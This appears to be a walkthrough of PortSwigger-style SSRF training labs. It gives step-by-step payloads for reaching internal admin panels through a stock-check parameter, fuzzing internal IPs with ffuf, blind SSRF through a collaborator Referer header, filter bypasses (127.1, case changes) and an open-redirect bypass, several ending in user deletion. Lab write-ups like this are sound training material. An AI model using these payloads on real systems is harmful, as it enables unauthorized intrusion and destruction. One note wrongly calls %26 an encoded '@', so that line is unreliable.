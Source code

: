 # Navigation
- [Basic SSRF against the local server](#basic-ssrf-against-the-local-server)
- [Basic SSRF against another back-end system](#basic-ssrf-against-another-back-end-system)
- [Blind SSRF with out-of-band detection](#blind-ssrf-with-out-of-band-detection)
- [SSRF with blacklist-based input filter](#ssrf-with-blacklist-based-input-filter)
- [SSRF with filter bypass via open redirection vulnerability](#ssrf-with-filter-bypass-via-open-redirection-vulnerability)
# Basic SSRF against the local server
1. Navigate page > Select item > Check stock
2. Send POST request checking stock to repeater
3. Identify the `stockAPI` parameter
```
POST /product/stock HTTP/2
...<SNIP>...
stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1
```
4. Send SSRF probe for `/admin`
```
stockApi=http%3A%2F%2Flocalhost/admin
```
5. Admin page loads showing URLs to delete users
6. Submit request to delete Carlos
```
stockApi=http%3A%2F%2Flocalhost/admin/delete?username=carlos
```
# Basic SSRF against another back-end system
- Need to scan internal `192.168.0.x` interface for `/admin` on port `8080`
1. Navigate page > Select item > Check stock
2. Send POST request checking stock to repeater
3. Identify the `stockAPI` parameter
```
POST /product/stock HTTP/2
...<SNIP>...
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1
```
4. Save request to file
5. Edit the `stockApi` for `ffuf` to fuzz the IP address of the remote target
```
stockApi=http://192.168.0.FUZZ:8080/admin
```
6. Use `ffuf` to fuzz the remote target and exclude `500` response codes
```sh
ffuf -request SSRF.req -w <(seq 1 254) -fc 500
```
- In this lab, I get a hit for `192.168.0.107`
7. Issue request to delete carlos
```
stockApi=http://192.168.0.107:8080/admin/delete?username=carlos
```
# Blind SSRF with out-of-band detection
- This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded
1. Navigate page > Select item
2. `GET /product?productId=...` request to repeater
3. Modify `Referer:` header to your collaborator server
```
Referer: https://2gjp04ouq0i3s8m1ivxpwoaga7gy4pse.oastify.com
```
# SSRF with blacklist-based input filter
1. Navigate page > Select item > Check stock
2. Send POST request checking stock to repeater
3. Identify the `stockAPI` parameter
```
POST /product/stock HTTP/2
...<SNIP>...
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1
```
4. Request localhost is blocked
```
# Request
stockApi=http://localhost

# Response
"External stock check blocked for security reasons"
```
5. Test alternative representations of `localhost`
```
stockApi=http://127.1
```
- Returns `200 OK`
6. Request `/admin` is blocked
```
# Request 
stockApi=http://127.1/admin

# Response
"External stock check blocked for security reasons"
```
7. Test case manipulation
```
stockApi=http://127.1/Admin
```
- Returns `200 OK`
8. Delete `Carlos`
```
stockApi=http://127.1/Admin/delete?username=carlos
```
# SSRF with filter bypass via open redirection vulnerability
- Need to access `http://192.168.0.12:8080/admin` and delete the user `carlos`
1. Navigate page > Select item > Check stock
2. Send POST request checking stock to repeater
3. Identify the `stockAPI` parameter
```
POST /product/stock HTTP/2
...<SNIP>...
stockApi=http%3A%2F%2F192.168.0.1%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D3%26storeId%3D1
```
4. In the UI, clicking `Next` link on a product triggers a redirect
```
GET /product/nextProduct?currentProductId=6&path=/product?productId=7
```
5. These both have the same endpoint, we can construct a request like the following to access `/admin`
```
stockApi=/product/nextProduct?currentProductId=7%26path=http://192.168.0.12:8080/admin
```
- `%26` is URL encoded `@` to avoid breaking the request
- This works because the `stockApi` is provided the same endpoint. We change the redirect path to the admin interface
6. Delete `Carlos`
```
stockApi=/product/nextProduct?currentProductId=7%26path=http://192.168.0.12:8080/admin/delete?username=carlos
```

